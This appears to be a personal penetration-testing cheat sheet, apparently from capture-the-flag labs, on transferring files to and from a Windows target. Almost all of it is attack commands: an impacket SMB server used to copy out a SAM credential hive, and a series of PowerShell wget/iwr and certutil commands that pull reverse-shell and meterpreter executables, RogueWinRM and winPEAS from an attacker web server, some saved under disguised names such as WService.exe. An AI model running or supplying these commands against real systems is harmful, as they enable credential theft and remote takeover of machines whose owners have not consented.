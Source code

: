 
## copy files from win

[[Public/InfoSec/Tools n Info/09 - Windows Exploration/smb|smb]]
[[impacket]]

create share for upload to our machine
atk: `sudo impacket-smbserver -smb2support -username THMBackup -password CopyMaster555 myshare ../dirname`

cmd: `copy sam.hive \\10.18.21.236\myshare`

## copy files to win

as above

atk: `python3 -m http.server 8000`

ps: `wget "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" -O "C:\PROGRA~2\SYSTEM~1\WService.exe"`
ps: `iwr "http://10.18.21.236:8000/enum/winPEASany.exe" -outfile "C:\windows\temp\winpeas.exe"`
ps: `iwr "http://10.18.21.236:8000/shells/revsh-meterpr-444.exe" -outfile "C:\windows\temp\revsh-meterpr-444.exe"`
try skipping outfile

cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" "C:\PROGRA~2\SYSTEM~1\WService.exe"`
cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/exploits/RogueWinRM.exe" "RogueWinRM.exe"`

cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-meterpr-444.exe" "C:\windows\temp\revsh-meterpr-444.exe"`

cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-443.exe" "revsh-443.exe"`
cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-443.exe" "message.exe"`

cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/enum/winPEAS.bat" "winpeas.bat"`
